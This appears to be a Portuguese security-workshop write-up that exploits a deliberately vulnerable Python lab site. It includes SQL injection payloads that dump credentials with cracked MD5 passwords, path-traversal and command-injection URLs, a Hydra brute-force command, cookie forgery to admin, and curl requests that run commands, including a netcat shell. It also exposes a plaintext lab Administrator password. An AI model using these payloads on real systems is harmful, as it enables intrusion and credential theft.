 # Infraestrutura

### Windows

- Region: us-east-1
- Instance id: This is the Windows client with tools for the Python_SafeSite Security Workshop
- AMI name: SecLabClient
- Description: This is the Windows client with tools for the Python_SafeSite Security Workshop
- Administrator Password: mBp4t;Jvg6!dskzt3DCHa@w7H?l5.?VE
- AMI id: ami-01127273b979fe92b

### Linux

- Region: us-east-1
- Instance id: i-0458f66b29d690451
- AMI name: SecLabServer
- Description: This is the Linux server with the vulnerable site for the Python_SafeSite Security Workshop
- AMI id: ami-01127273b979fe92b

# Falhas e Ataques

#### Página Inicial: SQL Injection

Ao colocar uma aspa dupla (") no campo de busca, o site quebra. Isso mostra que o site é vulnerável a ataques SQL Injection. Um agravante é que o desenvolvedor deixou a página de Debug habilitada, mostrando detalhes do erro e inclusive a engine (SQLite3). Com a informação do SQL é possível compor um ataque que seja adicionado à cláusula where da query:

- Original:

  - `SELECT * FROM posts WHERE Content LIKE "%"%";`

- Alteradas:

  - `SELECT * FROM posts WHERE Content LIKE "%X" union select 1, 2 --%";`

    - `X" union select 1, 2 --`
    - `X" union select name, sql from sqlite_master where type='table' --`
    - `X" union select name || ': ' || card, password from secrets --`
    - `X" union select login || ': ' || email, password from logins --`

Obtivemos os hashes dos logins, que podem ser facilmente quebrados no [https://crackstation.net/](https://crackstation.net/):

084e0343a0486ff05530df6c705c8bb4: guest@guest
084e0343a0486ff05530df6c705c8bb4

21232f297a57a5a743894a0e4a801fc3: admin@admin
0192023a7bbd73250516f069df18b500

263bce650e68ab4e23f28263760b9fa5: maria@gmail.com
3a1f9e20f1beac9b81a1e18e08b7f442

dc599a9972fde3045dab59dbd1ae170b: carlos@hotmail.com
a07bda8fd5e39462b4c3d860a36f6b4d

| Hash                             | Tipo | Senha       |
| -------------------------------- | ---- | ----------- |
| 084e0343a0486ff05530df6c705c8bb4 | md5  | guest       |
| 0192023a7bbd73250516f069df18b500 | md5  | admin123    |
| 3a1f9e20f1beac9b81a1e18e08b7f442 | md5  | unicornio   |
| a07bda8fd5e39462b4c3d860a36f6b4d | md5  | corinthians |

#### Sobre Nós: Path Traversal, Remote Command Execution

A página Sobre Nós claramente exibe o conteúdo de arquivos texto que estão no servidor. Ao clicar em um deles, a URL fica da seguinte forma:

[http://0.0.0.0:8080/about?doc=termo_de_uso](http://0.0.0.0:8080/about?doc=termo_de_uso)

Vamos explorar esse parâmetro:

- `?doc=x`: Tela em branco
- `?doc=/etc/passwd`: Tela em branco

Provavelmente não vemos nada porque esse campo recebe o nome do arquivo e faz prepend de um caminho e append de uma extensão. Logo, termo_de_uso deve virar algo como /pasta/termo_de_uso.txt. Se isso for verdade, podemos testar com diretórios relativos + null bytes e também com múltiplos nomes de arquivos.

- [http://0.0.0.0:8080/about?doc=../../../../../etc/passwd%00](http://0.0.0.0:8080/about?doc=../../../../../etc/passwd%00)  Quebra por causa do null byte.
- [http://0.0.0.0:8080/about?doc=/etc/hostname /etc/fstab /etc/passwd /etc/mtab /etc/hosts](http://0.0.0.0:8080/about?doc=/etc/hostname%20/etc/fstab%20/etc/passwd%20/etc/mtab%20/etc/hosts) mostra o conteúdo de todos os arquivos, menos o primeiro e o último.
- Será que neste contexto ele repassa o path para o shell? Se sim, podemos tentar executar comandos... [http://0.0.0.0:8080/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x](http://0.0.0.0:8080/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x). Game over!

#### Contato: CSRF + XSS (Firefox)

Estes ataques XSS não funcionam no Chrome.

No primeiro formulário é possível executar um XSS, mas ele não é persistido.

No segundo, entretanto, ele é persistido, mas não é executado.

Para fazer o ataque, a vítima tem que clicar em um link feito para roubar a sessão ou capturar o browser, com um software como o Beef, por exemplo.

#### Cadastro: XSS, File Upload

Ao criar um usuário, é possível fazer o upload de um arquivo qualquer que não seja uma foto para o servidor. No caso de um site PHP, por exemplo, este arquivo pode ser uma shell que permita acesso remoto ao servidor.

#### Área Restrita: HTTP Brute Force

Com o THC-Hydra, Burp Suite ou OWASP ZAP é possível facilmente quebrar as senhas, já que não há um limitador de tempo.

```
hydra -V -s 8000 \
    -l admin -P /opt/wordlists/common_it_passwords.txt \
    0.0.0.0 \
    http-post-form \
    '/login:login=^USER^&senha=^PASS^:Login incorreto!'
```

#### Perfil: HTTP Brute Force

O mesmo que o item anterior.

#### Global: Cookie Tampering (or Poisoning)

Ao criar um usuário de testes chamado cleber com senha 12345, os seguintes cookies foram setados após o login:

- pyverysafeid: 5c675a11f4a8474c3d75ff158570850a (este é cleber em MD5)

- pyverysafelogin: ee11cbb19052e40b07aac0ca060c23ee (este é a palavra user)

Se o hash é a palavra user, o que acontece se eu mudar para admin em MD5?

21232f297a57a5a743894a0e4a801fc3 -> admin

Ao trocar o cookie e dar refresh, os privilégios da sessão são elevados instantaneamente!

#### Global: Directory Search

Como não há nenhum recurso que impeça múltiplos requests sequenciais, ferramentas como o DIRB, o Nikto e o ZAP podem fazer ataques fuzzy ou via listas para encontrar diretórios ocultos.

`dirb http://0.0.0.0:8080/`

Achamos um /status oculto.

#### Status: Form Tampering (or Poisoning)

O diretório /status que só permite a execução de determinados comandos e apenas para o usuário admin, pode ser burlado via troca de parâmetros no request para que comandos sejam enviados diretamente ao servidor.

```
curl --cookie 'pyverysafelogin=21232f297a57a5a743894a0e4a801fc3' \
    'http://0.0.0.0:8080/status' \
    -X POST \
    --data 'cmd=env'
```

Para subir um shell reverso, caso o servidor tenha Netcat instalado:

```
curl --cookie 'pyverysafelogin=21232f297a57a5a743894a0e4a801fc3' \
    'http://0.0.0.0:8080/status' \
    -X POST \
    --data 'cmd=nc -lvp 8443 -e /bin/bash'
```
